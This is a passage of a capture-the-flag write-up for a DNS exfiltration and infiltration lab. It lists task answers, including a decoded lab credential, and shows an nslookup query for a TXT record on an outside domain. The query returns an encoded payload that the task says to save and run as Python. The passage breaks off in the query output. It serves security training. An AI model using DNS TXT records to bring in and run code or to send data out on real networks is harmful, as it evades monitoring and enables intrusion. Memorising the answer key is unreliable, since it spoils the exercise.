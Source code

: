 Answer : cap3.pcap

### Enter the plain-text after you have decoded the data using packetyGrabber.py found in ~/dns-exfil-infil/ folder.

~/challenges/exfiltration/identify/

Answer : administrator:s3cre7P@ssword

## TASK 8 : What is DNS Infiltration? 
### What type of DNS Record is usually used to infiltrate data into a network? 
Answer : txt

## TASK 9 : DNS Infiltration - Demo 
### Read the above. 
No Answer.

## TASK 10 : DNS Infiltration - Practice 
### Follow the instructions in the TASK file to complete this question. Enter the output from the executed python file.

~/challenges/infiltration/

Let's read the TASK : 

```console
user@user1:~/challenges/infiltration$ ls
TASK
user@user1:~/challenges/infiltration$ cat TASK
For this TASK we will be requesting a TXT Record from my public domain name.
Here is the information needed to complete this challenge:

My Domain Name: badbaddoma.in
Request TXT Record from this subdomain: code
Save the text value to a python file
Run the ~/dns-exfil-infil/packetySimple.py to decode the text
Run the program: python3 [your-file-name].py
Take a note of the output and answer the question in the "DNS Infiltration - Practice" section.
user@user1:~/challenges/infiltration$
```
{: .nolineno }

We can query the record by the foolowing command :

```console
user@user1:~/challenges/infiltration$ nslookup -type=txt code.badbaddoma.in
Server:		10.0.0.2
Address:	10.0.0.2#53

Non-authoritative answer:
code.badbaddoma.in	text = "YeeTbunLbACdXq193g6VHXRuDQ9Y1upaAzA3UkpCr8yBBE68JEXU32wxNE44"

Authoritative answers can be found from:
```
{: .nolineno }
